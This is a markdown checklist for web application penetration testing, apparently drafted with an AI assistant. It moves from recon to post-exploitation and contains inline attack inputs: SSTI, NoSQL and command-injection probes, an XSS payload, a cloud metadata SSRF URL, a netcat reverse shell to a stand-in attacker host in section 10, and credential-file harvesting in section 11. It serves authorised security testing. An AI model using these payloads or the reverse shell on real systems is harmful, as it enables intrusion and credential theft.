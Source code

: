 ## Web Exploitation Checklist
### 0 Preparation & Recon

- [ ] Map in-scope hosts and sub-domains (`amass enum -d target.com`, `assetfinder`)
- [ ] Port-scan for web services (`nmap -p80,443,8080,8443 -sV target.com`)
- [ ] Fingerprint tech stack (`whatweb`, `wappalyzer`, banner grabs)
- [ ] Crawl / brute content (`ffuf -u https://target/FUZZ -w wordlist.txt`)
- [ ] Capture baseline requests in Burp (save for diffing / replay)
- [ ] Passive intel: GitHub, paste sites, crt.sh, Wayback
### 1 Authentication & Session

- [ ] Test default / weak creds, check rate-limits & account lockout    
- [ ] Inspect cookies for `Secure`, `HttpOnly`, `SameSite` flags
- [ ] Attempt session fixation / reuse (clone ID, replay token)
- [ ] Look for password-reset / magic-link abuse
### 2 Input-Injection Vectors

- [ ] **SQLi** (error-based, UNION, blind time-based, OOB)    
- [ ] **NoSQLi** (`{"$ne":""}` etc.)
- [ ] **Command injection** (`;|&&`, back-ticks, `$()`), validate output
- [ ] **LDAP / XPath-i** where directory queries exist
- [ ] **SSTI** — drop payloads like `{{7*7}}`, `${7*7}`, `<%=%>` and watch response ([github.com](https://github.com/swisskyrepo/PayloadsAllTheThings?utm_source=chatgpt.com "swisskyrepo/PayloadsAllTheThings: A list of useful payloads and ..."))
### 3 Access-Control & Logic

- [ ] Flip `user_id`, `account=`, `role=` parameters (IDOR)    
- [ ] Bypass vertical controls (standard → admin endpoints)
- [ ] Check multi-step workflows for state abuse (e.g., skip payment)
### 4 File Upload & Path Traversal

- [ ] Locate upload endpoints; test size, name, extension limits
- [ ] Bypass content-type checks with mixed boundaries, double extensions (`shell.php.jpg`) ([vaadata.com](https://www.vaadata.com/blog/file-upload-vulnerabilities-and-security-best-practices/?utm_source=chatgpt.com "File Upload Vulnerabilities and Security Best Practices - [ ]Vaadata"), [prplbx.com](https://www.prplbx.com/resources/blog/exploiting-file-upload-vulnerabilities/?utm_source=chatgpt.com "Methods For Exploiting File Upload Vulnerabilities - [ ]PurpleBox"))    
- [ ] Try null-byte / Unicode tricks (`shell.php%00.jpg`)
- [ ] After upload, hunt for path disclosure then access file
- [ ] **LFI/RFI** via `../` traversal, `%2e%2e/`, PHP wrappers (`php://filter`)
- [ ] Combine LFI + log poisoning or `/proc/self/environ` for code exec
### 5 Server-Side Request Forgery (SSRF)

- [ ] Identify URL parameters (`url=`, `load=`, `next=`, `fetch=`)    
- [ ] Probe internal addresses (`http://169.254.169.254/latest/meta-data/`)
- [ ] Use Burp Collaborator / interact-sh for blind SSRF callbacks
- [ ] Attempt DNS rebinding or protocol smuggling for advanced cases ([prplbx.com](https://www.prplbx.com/resources/blog/ssrf-guide/?utm_source=chatgpt.com "A Complete Guide To Server-Side Request Forgery (SSRF)"), [intigriti.com](https://www.intigriti.com/researchers/blog/hacking-tools/ssrf-a-complete-guide-to-exploiting-advanced-ssrf-vulnerabilities?utm_source=chatgpt.com "A complete guide to exploiting advanced SSRF vulnerabilities - [ ]Intigriti"))
### 6 Deserialization & Memory Objects

- [ ] Detect serialized blobs (PHP, Java, .NET, Python pickle, YAML)    
- [ ] Use `ysoserial`, `marshalsec`, or `phpggc` to craft gadget → RCE
- [ ] Monitor out-bound callbacks / `/tmp` for payload execution    
### 7 Client-Side Weaknesses

- [ ] **XSS** (reflected, stored, DOM) → test `<svg/onload=alert(1)>`    
- [ ] **CSRF** — check protected actions for missing tokens
- [ ] **CORS** misconfig (wildcard origin + `Access-Control-Allow-Credentials: true`)
- [ ] Clickjacking (`X-Frame-Options` absent) → build proof
### 8 HTTP Smuggling & Header-Level Attacks

- [ ] Test CL.TE / TE.CL with Burp “Request Smuggler”    
- [ ] Manipulate host / X-Forwarded-For headers for poisoning
- [ ] Try backend confusion via duplicate cookies or parameters
### 9 Web-Server / Platform Misconfig

- [ ] Check for directory listing, backup files (`.git`, `.svn`, `~`, `.bak`)    
- [ ] Analyse framework debug pages (`/debug`, stack traces)
- [ ] Identify outdated components; map CVEs (e.g., Log4j, Struts)
### 10 Exploitation & Shell

- [ ] Confirm RCE → upload web-shell or bind/reverse shell    
- [ ] Establish stable channel (e.g., `nc -e /bin/bash attacker:4444`)
- [ ] Enumerate host for lateral movement / local privesc
### 11 Post-Exploitation & Clean-up

- [ ] Harvest creds/configs (`wp-config.php`, `.env`, `/var/www/*`)    
- [ ] Screenshot evidence, save raw HTTP request/response pairs
- [ ] Remove test files / shells where scope requires    
- [ ] Document steps for report, link to WSTG IDs ([owasp.org](https://owasp.org/www-project-web-security-testing-guide/?utm_source=chatgpt.com "OWASP Web Security Testing Guide")
    